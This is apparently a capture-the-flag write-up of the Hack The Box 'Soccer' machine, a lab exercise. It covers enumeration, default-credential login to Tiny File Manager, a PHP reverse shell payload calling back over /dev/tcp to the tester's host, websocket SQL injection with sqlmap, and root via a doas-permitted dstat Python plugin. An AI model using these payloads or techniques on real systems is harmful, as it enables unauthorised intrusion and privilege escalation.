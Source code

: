 ## Nmap
From the nmap scan, we are able to find open ports 21,80 and 9091
![nmap](https://github.com/joelczk/writeups/blob/main/HTB/Images/Soccer/nmap.png)

Next, we will add the following lines to our /etc/hosts file

```
10.10.11.194    soccer.htb
```

## Enumerating Port 80
Using gobuster, we are able to enumerate the endpoints of port 80. From the output, we are able to find the following endpoints:

```
http://soccer.htb/index.html           (Status: 200) [Size: 6917]
http://soccer.htb/tiny                 (Status: 301) [Size: 178] [--> http://soccer.htb/tiny/]
```

## Exploiting http://soccer.htb/tiny
### Weak Password Authentication
Navigating to http://soccer.htb/tiny, we can find that this site hosts Tiny Site Manager. Using the default admin credentials (admin:admin@123), we are able to gain access to the site

### CVE-2021-45010
After logging in, we realize that the version of Tiny Site Manager that we are using is 2.4.3
From [here](https://packetstormsecurity.com/files/166004/Tiny-File-Manager-2.4.3-Shell-Upload.html), we know that Tiny File Manager 2.4.3 is vulnerable to a shell upload. We will first start by crafting a PHP reverse shell payload.

```php
<?php echo shell_exec("/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.16.2/80 0>&1'");?>
```
Afterwards, we will then upload the reverse shell payload and set the appropriate permissions for the uploaded file.

![File Upload](https://github.com/joelczk/writeups/blob/main/HTB/Images/Soccer/file_upload.png)

![perms](https://github.com/joelczk/writeups/blob/main/HTB/Images/Soccer/perms.png)

Finally, we will visit http://soccer.htb/tiny/uploads/shell.php to spawn the reverse shell connection to our local listener
![Reverse Shell](https://github.com/joelczk/writeups/blob/main/HTB/Images/Soccer/reverse_shell.png)

## Privilege Escalation to player user
### Port 3000 on localhost
Using linpeas, we are able to find that port 3000 is open on the localhost

```
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports                              
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:9091            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      1112/nginx: worker  
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      1112/nginx: worker 
```

We will then forward the traffic on port 3000 on the localhost to our local machine using Chisel
![Port Forwarding](https://github.com/joelczk/writeups/blob/main/HTB/Images/Soccer/port_forwarding.png)

### SQL Injection on Port 3000
Using gobuster, we are able to find the following endpoints that are listening on port 3000

```
http://127.0.0.1:3000/login                (Status: 200) [Size: 3307]
http://127.0.0.1:3000/img                  (Status: 301) [Size: 173] [--> /img/]
http://127.0.0.1:3000/signup               (Status: 200) [Size: 3741]
http://127.0.0.1:3000/css                  (Status: 301) [Size: 173] [--> /css/]
http://127.0.0.1:3000/Login                (Status: 200) [Size: 3307]
http://127.0.0.1:3000/js                   (Status: 301) [Size: 171] [--> /js/]
http://127.0.0.1:3000/logout               (Status: 302) [Size: 23] [--> /]
http://127.0.0.1:3000/check                (Status: 200) [Size: 31]
http://127.0.0.1:3000/match                (Status: 200) [Size: 10078]
http://127.0.0.1:3000/Signup               (Status: 200) [Size: 3741]
http://127.0.0.1:3000/SignUp               (Status: 200) [Size: 3741]
http://127.0.0.1:3000/Logout               (Status: 302) [Size: 23] [--> /]
http://127.0.0.1:3000/signUp               (Status: 200) [Size: 3741]
http://127.0.0.1:3000/Match                (Status: 200) [Size: 10078]
http://127.0.0.1:3000/LogIn                (Status: 200) [Size: 3307]
http://127.0.0.1:3000/LOGIN                (Status: 200) [Size: 3307]
```

We also realize that http://127.0.0.1:3000/check requires authentication. To access the ```/check``` endpoint, we will then have to sign up for a new user and login using the new user.

Intercepting the requests, we realize that the websocket requests made at the endpoint is vulnerable to SQL injection
![SQL Injection](https://github.com/joelczk/writeups/blob/main/HTB/Images/Soccer/sql_injection.png)

Using the tutorial from [here](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html), we can forward the web socket requests to port 8081 on our localhost

![SQL Injection localhost](https://github.com/joelczk/writeups/blob/main/HTB/Images/Soccer/sql_injection_localhost.png)

Afterwards, we can use sqlmap to obtain the password of the ```player``` user

![sqlmap](https://github.com/joelczk/writeups/blob/main/HTB/Images/Soccer/sqlmap.png)

## Obtaining user.txt
Using the password that we have obtained earlier, we can then gain SSH access to the ```player``` user and obtain the user.txt contents

![user.txt](https://github.com/joelczk/writeups/blob/main/HTB/Images/Soccer/user.txt.png)

## Privilege Escalation to root user
### Exploiting /usr/bin/doas

We realize that the system is using ```/usr/bin/doas``` binary. From [here](https://www.makeuseof.com/how-to-install-and-use-doas/), ```doas``` is an alternative to sudo. Checking the configuration file at 
```/usr/local/etc/doas.conf```, we realize that we can execute ```/usr/bin/dstat``` with root permissions using ```doas```

![doas conf](https://github.com/joelczk/writeups/blob/main/HTB/Images/Soccer/doas_conf.png)

### Exploiting /usr/bin/dstat

Looking at the manual for dstat, we realize that we are able to add python plugins for dstat

![dstat manual](https://github.com/joelczk/writeups/blob/main/HTB/Images/Soccer/dstat_manual.png)

Next, we will write a python script to spawn an interactive shell and name it ```dstat_exploit.py```

```
import os
os.system("/bin/bash -i")
```

We realize that we can write into /usr/local/share/dstat. Afterwards, we will then use ```doas``` to spawn an interactive bash shell with root privileges

![root shell](https://github.com/joelczk/writeups/blob/main/HTB/Images/Soccer/root_shell.png)

### Obtaining root flaf
From the root shll, we can then obtain the root flag

![root flag](https://github.com/joelczk/writeups/blob/main/HTB/Images/Soccer/root_flag.png)
